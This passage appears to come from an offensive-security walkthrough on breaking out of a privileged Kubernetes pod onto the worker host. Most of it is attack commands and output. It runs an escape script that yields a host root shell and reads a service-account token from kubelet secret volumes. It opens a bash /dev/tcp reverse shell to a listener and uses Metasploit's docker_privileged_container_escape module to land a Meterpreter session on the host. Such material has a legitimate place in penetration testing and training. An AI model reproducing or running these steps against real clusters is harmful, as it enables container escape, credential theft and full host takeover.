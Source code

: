 #### Make both scripts executable
```bash
chmod +x shell.sh escape.sh
```

#### Execute escape.sh from the pod, which spin up a listener for you and then make the host to execute shell.sh

```bash
root@pod-priv:/# ./escape.sh
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@k8s-worker:/# cat var/lib/kubelet/pods/998357c8-45c7-4089-9651-cb8b185f7da8/volumes/kubernetes.io~secret/default-token-qqgjc/token
eyJhbGciOiJSUzI1NiIsImtpZCI6Ik[REDACTED]
```

### Option 3: Use the metasploit module: docker_privileged_container_escape

#### Fire up your multi handler, using the -z flag to avoid interacting with the session
```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.0.0.127
LHOST => 10.0.0.127
msf6 exploit(multi/handler) > set port 4444
port => 4444
msf6 exploit(multi/handler) > run -jz
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 10.0.0.127:4444
```

#### From the pod, fire up a reverse shell
```bash
root@pod-priv:/# /bin/sh -i >& /dev/tcp/10.0.0.127/4444 0>&1
```

#### Catch shell from pod and spawn a shell on the host
```bash
[*] Started reverse TCP handler on 10.0.0.127:4444
msf6 exploit(multi/handler) > [*] Command shell session 1 opened (10.0.0.127:4444 -> 10.0.0.162:24316) at 2020-11-20 11:26:52 -0500

msf6 exploit(multi/handler) > use exploit/linux/local/docker_privileged_container_escape
[*] No payload configured, defaulting to linux/armle/meterpreter/reverse_tcp
msf6 exploit(linux/local/docker_privileged_container_escape) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/docker_privileged_container_escape) > set session 1
session => 1
msf6 exploit(linux/local/docker_privileged_container_escape) > run

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 10.0.0.127:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Inside Docker container and target appears vulnerable
[*] Writing payload executable to '/tmp/wsKXoIW'
[*] Writing '/tmp/wsKXoIW' (286 bytes) ...
[*] Executing script to exploit privileged container
[*] Searching for payload on host
[*] Sending stage (3008420 bytes) to 10.0.0.162
[*] Meterpreter session 2 opened (10.0.0.127:4444 -> 10.0.0.162:47308) at 2020-11-20 11:28:18 -0500
```